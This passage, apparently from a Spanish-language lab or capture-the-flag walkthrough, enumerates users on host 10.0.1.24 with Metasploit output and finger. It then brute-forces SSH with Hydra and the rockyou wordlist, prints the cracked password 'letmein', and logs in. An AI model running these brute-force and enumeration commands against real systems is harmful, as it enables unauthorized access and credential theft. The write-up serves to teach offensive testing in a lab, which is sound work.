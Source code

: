 ```bash
[*] 10.0.1.24:25          - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
Tras esta acción, hemos identificado varios usuarios, pero nos enfocaremos en analizar de manera más detallada al usuario 'user'. Para llevar a cabo esta tarea, emplearemos el comando 'finger', el cual nos proporciona información específica sobre los usuarios del sistema
```bash
└─$ finger user@10.0.1.24
Login: user                             Name: user
Directory: /home/user                   Shell: /bin/bash
Never logged in.
No mail.
No Plan.

Login: dovenull                         Name: Dovecot login user
Directory: /nonexistent                 Shell: /bin/false
Never logged in.
No mail.
No Plan.
```
Al realizar esta acción, podemos confirmar la existencia del usuario 'user', así como su directorio '/home' y su acceso a una shell. Por lo tanto, ahora estamos listos para llevar a cabo un ataque de fuerza bruta utilizando Hydra
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt 10.0.1.24 ssh -t 4
```
Resultado:
```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-14 06:57:36
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.0.1.24:22/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 14344355 to do in 5433:29h, 4 active
[STATUS] 34.67 tries/min, 104 tries in 00:03h, 14344295 to do in 6896:18h, 4 active
[STATUS] 29.14 tries/min, 204 tries in 00:07h, 14344195 to do in 8203:23h, 4 active
[STATUS] 29.60 tries/min, 444 tries in 00:15h, 14343955 to do in 8076:34h, 4 active
[22][ssh] host: 10.0.1.24   login: user   password: letmein
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-14 07:15:26
```
Con esto, habremos obtenido las credenciales del usuario 'user'.
```bash
username: user
password: letmein
```
```bash
ssh user@10.0.1.24
```
